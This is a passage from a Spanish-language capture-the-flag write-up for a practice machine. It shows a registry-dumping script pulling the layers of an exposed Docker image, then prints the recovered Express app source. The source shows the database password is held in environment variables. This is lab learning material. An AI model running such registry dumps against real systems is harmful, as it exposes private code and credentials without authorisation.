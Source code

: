 ```python
> python3 drg.py http://umbrella.thm --dump umbrella/timetracking
[+] BlobSum found 23
[+] Dumping umbrella/timetracking
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : c9124d8ccff258cf42f1598eae732c3f530bf4cdfbd7c4cd7b235dfae2e0a549
    [+] Downloading : 62c454461c50ff8fb0d1c5d5ad8146203bb4505b30b9c27e6f05461b6d07edcb
    [+] Downloading : 82f3f98b46d4129f725cab6326d0521589d5b75ae0a480256495d216b2cd9216
    [+] Downloading : e5e56a29478cdf60132aa574648135a89299151414b465942a569f2109eefa65
    [+] Downloading : 7fbf137cf91ff826f2b2fddf3a30ea2e3d2e62d17525b708fd76db392e58df62
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 15b79dac86ef36668f382565f91d1667f7a6fc876a3b58b508b6778d8ed71c0e
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 23e2f216e8246d20ed3271ad109cec07f2a00b17bef8529708d8ae86100c7e03
    [+] Downloading : f897be510228b2f804fc2cb5d04cddae2e5689cbede553fb2d587c54be0ba762
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : a3241ece5841b2e29213eb450a1b29385bf9e0063c37978253c98ff517e6e1b3    
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 00fde01815c92cc90586fcf531723ab210577a0f1cb1600f08d9f8e12c18f108
    [+] Downloading : a3ed95caeb02ffe68cdd9fd84406680ae93d633cb16422d00e8a7c22955b46d4
    [+] Downloading : 3f4ca61aafcd4fc07267a105067db35c0f0ac630e1970f3cd0c7bf552780e985
```

Si buscamos el fichero de configuración "app.js", vemos que la contraseña está en una variable de entorno, por lo que vamos a tener que obtenarla desde el aplicativo.

```
> cat usr/src/app/app.js
const mysql = require('mysql');
const express = require('express');
const session = require('express-session');
const path = require('path');
const crypto = require('crypto')
const cookieParser = require('cookie-parser');
const fs = require('fs');

const connection = mysql.createConnection({
        host     : process.env.DB_HOST,
        user     : process.env.DB_USER,
        password : process.env.DB_PASS,
        database : process.env.DB_DATABASE
});

const app = express();
app.set('view engine' , 'ejs')
app.set('views', './views')
app.use(express.static(__dirname + '/public'));
app.use(express.json());
app.use(express.urlencoded({ extended: true }));

```
